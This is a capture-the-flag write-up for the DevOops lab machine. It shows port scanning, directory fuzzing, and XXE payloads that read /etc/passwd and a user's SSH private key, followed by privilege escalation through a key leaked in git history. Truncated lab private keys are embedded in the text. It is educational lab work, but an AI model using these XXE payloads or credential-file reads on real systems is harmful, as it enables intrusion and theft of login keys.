 ### Initial Port Scan and Enumeration

To begin the attack on DevOops, I performed an extensive port scan.

```
sudo nmap 10.10.11.43 -p- -sC -sV -T4 -v
```

The scan results revealed two open ports:
- 22 (SSH), which is commonly used for secure shell access.
- 5000 (HTTP), suggesting a web service running on a non-standard port.

I proceeded to enumerate the web service hosted on port 5000.

```
ffuf -u http://blogfeeder.htb:5000/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -fc 302 -fs 265
```

FFUF identified two significant directories:

- `/upload`: A page allowing file uploads.
- `/feed`: An endpoint that could be related to the blog’s content.

### XML External Entity (XXE) Exploitation

The /upload page accepted XML files, which hinted at the possibility of XXE (XML External Entity) injection. An XXE injection is a web vulnerability that allows an attacker to alter the way a website handles XML data. This vulnerability is most often used to arbitrarily read files on a web server. Below is a payload from [Portswigger](https://portswigger.net/web-security/xxe), modified to comply with the format that the website on this machine asked for (author, subject, content).

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE malicious [
    <!ELEMENT malicious ANY>
    <!ENTITY external SYSTEM "file:////etc/passwd">
]>
<Test>
	<Author>Test</Author>
	<Subject>Testing</Subject>
	<Content>&external;</Content>
</Test>
```

When this payload was uploaded, the server responded with the contents of /etc/passwd, revealing the user accounts on the system. This confirmed the presence of an XXE vulnerability and provided insight into potential SSH users, including the user `roosa`.

Since the goal was to gain remote access via SSH, I next targeted the id_rsa private key of the user `roosa`. Using a similar XXE payload, I requested the contents of `/home/roosa/.ssh/id_rsa`.

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE malicious [
    <!ELEMENT malicious ANY>
    <!ENTITY external SYSTEM "file:///home/roosa/.ssh/id_rsa">
]>
<Root>
<Author>gay</Author>
<Subject>Testing</Subject>
<Content>&external;</Content>
</Root>
```

Sure enough, the server sent back `roosa`'s private key!

roosa.id_rsa
```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
...............
xgQt1LOdApYoosALYta1JPen+65V02Fy5NgtoijLzvmNSz+rpRHGK6E8u3ihmmaq
82W3d4vCUPkKnrgG8F7s3GL6cqWcbZBd0j9u88fUWfPxfRaQU3s=
-----END RSA PRIVATE KEY-----
```

### Remote Access, RSA Keys, and Git Repositories

With roosa's private key in hand, I logged into the server via SSH. At this point, I began looking for privilege escalation opportunities. The first step was to upload linpeas, a script designed to automate the discovery of misconfigurations, vulnerable software, and other escalation vectors. Anytime a person has SSH credentials, they also have the permissions necessary to use SCP and SFTP (assuming it hasn't been disabled by a system administrator). I'll use this method to get my script on the box. I also ran this script in the background so that I could look around manually while it gathered information. 

```
scp -i roosa.id_rsa ./linpeas.sh roosa@blogfeeder.htb:/home/roosa/linpeas.sh
```

```
./linpeas.sh > linpeas.txt 2> linpeas.txt &
```

While exploring the filesystem, I stumbled upon an unidentified RSA key in the directory `/home/deploy/resources/integration`. This key didn't work for any of the known users, so I continued digging.

authcredentials.key
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApc7idlMQHM4QDf2d8MFjIW40UickQx/cvxPZX0XunSLD8veN
ouroJLw0Qtfh+dS6y+rbHnj4+HySF1HCAWs53MYS7m67bCZh9Bj21+E4fz/uwDSE
23g18kmkjmzWQ2AjDeC0EyWH3k4iRnABruBHs8+fssjW5sSxze74d7Ez3uOI9zPE
......................
qML/WvECgYEAyNoevgP+tJqDtrxGmLK2hwuoY11ZIgxHUj9YkikwuZQOmFk3EffI
T3Sd/6nWVzi1FO16KjhRGrqwb6BCDxeyxG508hHzikoWyMN0AA2st8a8YS6jiOog
bU34EzQLp7oRU/TKO6Mx5ibQxkZPIHfgA1+Qsu27yIwlprQ64+oeEr0=
-----END RSA PRIVATE KEY-----
```

Next, I found that the application was being managed via a **Git** repository located in `/home/roosa/work/blogfeeder/.git`. Git repositories often contain sensitive information in their commit history, such as credentials or configuration files. I checked the Git log to see if I was so lucky.

```
git log
```

I found a commit, and looked at the differences between the two versions

```
git diff <commit id> 
```

In the diff output, I discovered yet another RSA private key, which I immediately tested for **root** access. Fortunately, this key worked, granting me root privileges!

```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEArDvzJ0k7T856dw2pnIrStl0GwoU/WFI+OPQcpOVj9DdSIEde
8PDgpt/tBpY7a/xt3sP5rD7JEuvnpWRLteqKZ8hlCvt+4oP7DqWXoo/hfaUUyU5i
vr+5Ui0nD+YBKyYuiN+4CB8jSQvwOG+LlA3IGAzVf56J0WP9FILH/NwYW2iovTRK
..........................
LWXpAoGADMbq4aFzQuUPldxr3thx0KRz9LJUJfrpADAUbxo8zVvbwt4gM2vsXwcz
oAvexd1JRMkbC7YOgrzZ9iOxHP+mg/LLENmHimcyKCqaY3XzqXqk9lOhA3ymOcLw
LS4O7JPRqVmgZzUUnDiAVuUHWuHGGXpWpz9EGau6dIbQaUUSOEE=
-----END RSA PRIVATE KEY-----
```

With root access, I was able to navigate to /root and retrieve the root flag! This machine demonstrated the dangers of improperly handling XML inputs, particularly through the XXE vulnerability. It also highlighted the risks associated with exposing sensitive data, such as private SSH keys, via misconfigured web applications.